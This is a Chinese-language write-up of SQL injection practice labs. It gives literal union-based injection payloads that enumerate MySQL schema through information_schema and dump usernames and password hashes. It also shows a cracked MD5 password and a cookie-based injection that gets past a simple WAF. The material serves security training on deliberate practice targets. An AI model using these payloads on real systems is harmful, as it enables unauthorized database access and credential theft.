






### SQL注入

#### 墨者学院靶场[SQL手工注入漏洞测试(MySQL数据库)](https://www.mozhe.cn/bug/detail/elRHc1BCd2VIckQxbjduMG9BVCtkZz09bW96aGUmozhe)
1. 第一步: 查看是否存在注入点 
    `and 1=1` 可以打开
    `id=1 and 1=2` 不能打开
    `id=1 西瓜` 不能打开
1. 第二步: 查看列数量
    `id=1 order by X` X从1不断往上递加直到网页不能正常显示,此题目最大值为4,说明为4列
1. 第三步: 报错查看列名情况
    `id=-1 union select 1,2,3,4` 显示为2,3
1. 第四步: 从2,3查询, 查看版本, 数据库等信息
    `id=-1 union select 1,version(),database(),4` 此题结果, 版本:`version() = 5.7.22-0ubuntu0.16.04.1` 数据库: `database()=mozhe_Discuz_StormGroup`
    查询表名:
    `id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup'` 表名结果:`StormGroup_member,notice` 对此题来说,是`StormGroup_member`
    查询列名:
    `id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='StormGroup_member'` 列名结果: `id,name,password,status`
1. 第五步: 查询数据
    `id=-1 union select 1,name,password,4 from StormGroup_member limit 1,1`
    结果`name=mozhe` | `password=861de5d5f0a8128d0fab489996355994`
6.第六步:MD5解密
    name:mozhe 
    password:874769

#### 题目总结

1. 判定注入点
1. 查看列数量
1. 通过报错注入配合页面查看数据回显
1. 通过union联合查询拿到数据库版本,数据库名,表名,列名等信息
1. 查询出数据

#### 封神台SQL注入靶场1

基本步骤同墨者学院靶场 

**不同之处:**
- 使用`union`联合查询前, 不是用`id=-1`去过滤掉结果集, 后台应该有对id不存在时做了处理, 此时, 使用`id=1 and id=2`去`union`新的结果集, 过滤掉前面的结果

例:`id=1 and id=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema='maoshe'`

#### 封神台SQL注入靶场2

此靶场存在基础的WAF(WEB应用防火墙)

**特点:**
- 使用`id=-1`和`id=1 and id=2`都报错, 这里无法触发注入
- 直接`order by 10`查询出有10个字段
- 猜测存在表名字为`admin`的表,当我们使用`union select 1,2,3,4,5,6,7,8,9,10 from admin`时, 出现报错, 说明存在一定的WAF

- **关键:** 尝试将注入语句放到cookie中, 再发送给服务器, 因为网页防护一般只拦截Get、post传参. 这里用到了[ModHeader插件(新edge版本)](https://microsoftedge.microsoft.com/addons/detail/modheader/opgbiafapkbbnbnjcdomjaghbckfkglc?hl=zh-CN)(不喜欢用edge的也可以去找chrome版本)
- 点击加号, 键入`Cookie`, `id=171`, 再将浏览器url中的参数删除

- 发现能正常执行, 说明存在cookie注入

- 这次在cookie中传入我们的注入语句, `id=171+union+select+1,2,3,4,5,6,7,8,9,10+from+admin`, 使用+代替空格, 否则报错, 原因**可能是后台进行了一次解码, 解码后`+`会变成空格**

- 尝试查询`admin`表中最常见的字段`username`, `password`, `id=171+union+select+1,username,password,4,5,6,7,8,9,10+from+admin`, 拿到账户密码 